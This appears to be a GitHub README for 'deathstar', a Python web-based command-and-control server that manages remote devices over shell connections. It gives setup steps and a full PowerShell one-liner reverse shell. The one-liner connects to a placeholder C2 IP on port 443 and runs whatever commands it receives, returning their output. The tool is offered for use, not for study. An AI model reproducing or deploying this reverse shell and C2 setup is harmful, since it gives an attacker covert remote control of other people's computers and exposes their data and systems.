 # deathstar
Python webserver that receives shell connections from remote devices. 

Remote devices can be managed from the DeathStar webpage.

# Deathstar web page
<img width="991" alt="Screenshot 2024-12-21 at 12 46 55 AM" src="https://github.com/user-attachments/assets/6a6addfc-2875-47ff-bb39-ac332fa91f11" />

# Download deathstar

```git clone github.com/bwithe/deathstar```

# Web C2 server 
1. Start the server
    - `python3 deathstar.py`
2. Open link in web browser
    - `firefox 127.0.0.1:8000`
3. Modify `client.py` Deathstar IP
4. Have CLIENT connect to C2
    - Linux / MacOS
      - `python3 client.py`
    - Windows
        - `powershell -nop -c "$c=New-Object System.Net.Sockets.TCPClient('<DEATHSTAR_IP>',443);$s=$c.GetStream();$s.Write([byte[]](@(0x0A)),0,1);while($true){$b=[byte[]]::new(1024);$r=$s.Read($b,0,1024);$t=[text.encoding]::ASCII.GetString($b,0,$r).Trim();if($t -eq 'die'){exit};if($t -eq 'hostname'){$o=$env:COMPUTERNAME}elseif($t -eq 'whoami'){$o=$env:USERNAME}else{$o=iex $t 2>&1|Out-String};$o=$o.Trim()+[char]10;$d=[text.encoding]::ASCII.GetBytes($o);$s.Write($d,0,$d.Length)}"`
